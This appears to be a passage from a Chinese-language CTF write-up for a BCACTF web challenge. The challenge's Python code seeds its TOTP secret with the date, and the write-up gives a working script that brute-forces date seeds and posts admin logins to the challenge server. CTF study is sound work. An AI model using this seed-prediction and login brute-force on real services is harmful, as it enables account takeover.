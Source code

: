 ```python
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```

OTP Token 用当前日期作为种子生成。猜测题目应该挺新的就从最近一个月开始直接爆破（其实最近一年应该也可以爆出来）

```python
import datetime, random, requests, pyotp
from tqdm import *

start = datetime.datetime.strptime("2024-05-01", "%Y-%m-%d")
end = datetime.datetime.strptime("2024-06-09", "%Y-%m-%d")
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

url = 'http://challs.bcactf.com:31772/'
for i in tqdm(range(60)):
    random.seed(start.strftime("%Y-%m-%d"))
    data = {
        'username': 'admin',
        'password': 'admin',
        'totp': pyotp.TOTP(''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])).now()
    }
    res = requests.post(url, data=data)
    if 'incorrect' not in res.text:
        print(res.text)
        break
    start += datetime.timedelta(days=1)
```
